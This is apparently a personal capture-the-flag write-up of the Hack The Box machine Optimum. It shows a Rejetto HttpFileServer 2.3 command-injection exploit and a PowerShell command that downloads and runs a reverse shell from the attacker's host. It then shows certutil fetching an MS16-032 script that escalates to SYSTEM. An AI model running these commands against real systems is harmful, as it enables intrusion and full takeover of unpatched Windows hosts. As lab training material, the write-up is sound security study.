


---
tags:
  - HttpFileServer
  - MS16-032
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Optimum
- Reference : https://0xdf.gitlab.io/2021/03/17/htb-optimum.html
- Solved : 2025.3.5. (Wed) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Only one port open: HTTP (80).
    - **Web Enumeration**:
        - Identified "HttpFileServer 2.3" running on port 80.
        
2. **Shell as `kostas`**
    - **Exploit HttpFileServer**:
        - Used `searchsploit` to find a remote command execution exploit for `HttpFileServer 2.3`.
        - Ran the exploit to execute a `ping` command, confirming the exploit worked.
        - Used the same exploit to download and execute a PowerShell reverse shell payload, obtaining a reverse shell as `kostas`.
        
3. **Privilege Escalation to `SYSTEM`**
    - **Enumeration with Sherlock**:
        - Identified potential vulnerabilities: MS16-032 and MS16-135.
    - **Exploit MS16-032**:
        - Used `Invoke-MS16032.ps1` script to exploit the MS16-032 vulnerability and escalate to `SYSTEM` privileges.
        - Successfully gained a reverse shell as `SYSTEM`.

### Key Techniques:

- **Enumeration**:
    - Scanned for open ports and identified the running service.
    - Used `searchsploit` to find applicable exploits.
- **Exploitation**:
    - Executed a remote code execution exploit on `HttpFileServer`.
    - Escalated privileges using MS16-032 vulnerability.
- **Reverse Shell**:
    - Used custom PowerShell reverse shell payloads to gain access.
    - Leveraged MS16-032 to escalate from `kostas` to `SYSTEM`.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.8 
Performing quick port scan on 10.10.10.8...
Found open ports: 80
Performing detailed scan on 10.10.10.8...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-04 10:23 MST
Nmap scan report for 10.10.10.8
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.35 seconds
```

Only a single port is open : http(80)

### http(80)



It reveals the application name and its version : `HttpFileServer 2.3`


# Shell as `kostas`

### Exploit HttpFileServer

Regarding this, there's an exploit on `searchsploit`.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
------------------------------------------------- ---------------------------
 Exploit Title                                    |  Path
------------------------------------------------- ---------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Exe | windows/webapps/49125.py
------------------------------------------------- ---------------------------
Shellcodes: No Results
```

I tested this with `ping` command.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python3 49125.py 10.10.10.8 80 'cmd.exe /c ping 10.10.14.3'
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.3.}
```

I pasted the URL on browser, and monitor with `tcpdump`.



```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:45:44.364145 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 65, length 40
10:45:44.364169 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 66, length 40
10:45:44.364176 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 67, length 40
10:45:44.364181 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 68, length 40
```

It seems working.
Using the given example on the code, I tried a command to download and execute powershell payload.
For the payload, I used nishang's powershell reverse shell : https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python3 49125.py 10.10.10.8 80 "powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/rshell.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.3%3A8000/rshell.ps1%27%29.}
```

The webserver then receives the request.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Mar/2025 11:16:23] "GET /rshell.ps1 HTTP/1.1" 200 -
```

Then the listener got a shell.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49183
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
optimum\kostas
```


# Shell as `SYSTEM`

### Enumeration

Let's run `Sherlock` to find vulnerabilities.

```powershell
PS C:\Users\kostas\Desktop> .\Sherlock.ps1


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable

Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenuEx Win32k NULL Page
MSBulletin : MS13-081
CVEID      : 2013-3881
Link       : https://www.exploit-db.com/exploits/31576/
VulnStatus : Not supported on 64-bit systems

Title      : TrackPopupMenu Win32k Null Pointer Dereference
MSBulletin : MS14-058
CVEID      : 2014-4113
Link       : https://www.exploit-db.com/exploits/35101/
VulnStatus : Not Vulnerable

Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Not Vulnerable

Title      : Font Driver Buffer Overflow
MSBulletin : MS15-078
CVEID      : 2015-2426, 2015-2433
Link       : https://www.exploit-db.com/exploits/38222/
VulnStatus : Not Vulnerable

Title      : 'mrxdav.sys' WebDAV
MSBulletin : MS16-016
CVEID      : 2016-0051
Link       : https://www.exploit-db.com/exploits/40085/
VulnStatus : Not supported on 64-bit systems

Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.html
VulnStatus : Not Vulnerable
```

It appears to be vulnerable to MS16-032, MS16-135.

I also tried to run `winPEAS`, but it was not working.
I checked the current running process, and it seemed that it was running on 32bit.
This might have happened because the HFS is running on 32bit.

```powershell
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

To solve this, I reopened a reverse shell with specified 64bit powershell path.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python3 49125.py 10.10.10.8 80 "C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/rshell.ps1')"
http://10.10.10.8:80/?search=%00{.+exec|C%3A%5CWindows%5Csysnative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.3%3A8000/rshell.ps1%27%29.}
```

Then it opened a powershell with 64bit process.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49220
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>[Environment]::Is64BitProcess
True
```

### MS16-032

MS16-032 vulnerability triggers privilege escalation when `seclogon` is exploited.
To be specific, when `CreateProcessWithLogonW` function setup security context when it's creating new process. If its token handler is not handled properly, it can be abused.

I found the [reference](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms16-032.md) to exploit and spawn a reverse shell using MS16-032 vulnerability.

First, let's upload `Invoke-MS16032.ps1` and import it.

```powershell
PS C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f http://10.10.14.3:8888/Invoke-MS16032.ps1
****  Online  ****
  0000  ...
  35dd
CertUtil: -URLCache command completed successfully.

PS C:\Users\kostas\Desktop> . .\Invoke-MS16032.ps1
```

After preparing reverse shell powershell script to open port on 9001, let's invoke the exploit.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49235
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
```

Then the listener soon captures a shell as `SYSTEM`!